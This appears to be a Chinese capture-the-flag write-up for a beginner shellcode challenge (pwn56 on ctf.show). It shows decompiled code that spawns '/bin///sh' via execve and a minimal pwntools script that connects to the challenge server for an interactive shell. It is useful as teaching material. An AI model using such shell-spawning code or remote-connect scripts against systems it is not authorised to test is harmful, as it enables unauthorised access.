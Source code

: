 ## 56. pwn56（shellcode）

先了解一下简单的32位shellcode吧



![image-20241102163346933](../_media/image-20241102163346933.png)





感觉它出题顺序怪怪的，这时候就来了解shellcode

就给了一个start：

```c
void __noreturn start()
{
  int v0; // eax
  char v1[10]; // [esp-Ch] [ebp-Ch] BYREF
  __int16 v2; // [esp-2h] [ebp-2h]

  v2 = 0;
  strcpy(v1, "/bin///sh");
  v0 = sys_execve(v1, 0, 0);
}
```



直接exp连上去就可以了：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28172
elf = ELF('./pwn')

r = remote(ip,port)

r.interactive()
```


